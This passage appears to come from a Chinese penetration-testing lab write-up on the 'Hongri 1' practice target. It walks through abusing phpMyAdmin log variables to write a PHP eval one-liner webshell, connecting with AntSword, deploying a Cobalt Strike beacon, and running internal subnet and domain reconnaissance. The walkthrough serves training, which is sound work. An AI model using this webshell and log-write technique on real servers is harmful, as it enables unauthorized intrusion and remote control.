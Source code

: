 但是无法登录，打算用phpmyadmin后台协助获取shell,我们可以执行任意的sql查询，并且mysql版本为5.5.53,文件操作权限为只读值，我们无法对其进行修改，但是我们可以修改日志变量来进行写码

![var_log](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\var_log.png)

此时我们执行查询语句

```
select '<?php @eval($_POST[1]);?>';
```

就能写入shell到目标路径，但是这里路径是错误的，所以并没有连上蚁剑,我们需要重新获取路径，将路径改为WWW(phpstudy默认大写)，成功写入并且连上蚁剑

![蚁剑](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\蚁剑.png)

使用CS生成后门文件

![cs](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\cs.png)

上传到蚁剑并执行，成功上线cs

## 系统信息收集+内网信息收集

在系统中执行命令如下

```
sleep 0
shell whoami
```

![shell-whoami](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\shell-whoami.png)

查看windows安装的补丁

![win7-systeminfo](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\win7-systeminfo.png)

安装了4个补丁，并且看到内网ip为192.168.52.143，利用cs上的工具进行提权（走个过场）

![权限提升](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\权限提升.png)

**内网信息收集**

对内网ip进行C段扫描

![内网C段](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\内网C段.png)

得到剩下的两台机器，查看其开放的端口

![内网开放端口](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\内网开放端口.png)

**域信息收集**

```
net view /domain
```

发现存在域

